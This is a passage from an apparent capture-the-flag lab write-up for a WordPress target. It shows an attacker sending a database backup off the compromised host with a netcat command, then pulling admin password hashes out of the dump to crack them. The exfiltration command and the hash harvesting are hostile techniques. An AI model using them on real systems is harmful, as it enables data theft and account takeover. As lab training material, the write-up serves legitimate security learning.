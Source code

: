 Seems like we have a huge backup of the `SQL-DB`. Let us transfer the file to our system and `enumerate` it.

```bash
www-data@blog:/opt/wordpress$ cat backup-13-04-2020.sql | nc 10.10.14.2 1234
root@darkness:~# nc -lvnp 1234 > sql.bak
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.189.
Ncat: Connection from 10.10.10.189:50956.
```

We receive the file and can now take a look at it.

### Finding credentials in the WordPress backup

Let us manually look through the file and see if we `find` anything interesting...

```bash
root@darkness:~# cat sql.bak | tail -n 20
--
-- Dumping data for table `wp_users`
--

LOCK TABLES `wp_users` WRITE;
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2020-04-13 13:39:31
```

Right at the end of the file we can find the `wp_users` table, which contains the encrypted passwords of the `admin` and `lynik-admin` user. Let us try to crack the hashes next.

### Cracking the WordPress hashes

```bash
root@darkness:~# cat wp.hashes 
admin:$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/
lynik-admin:$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.
```
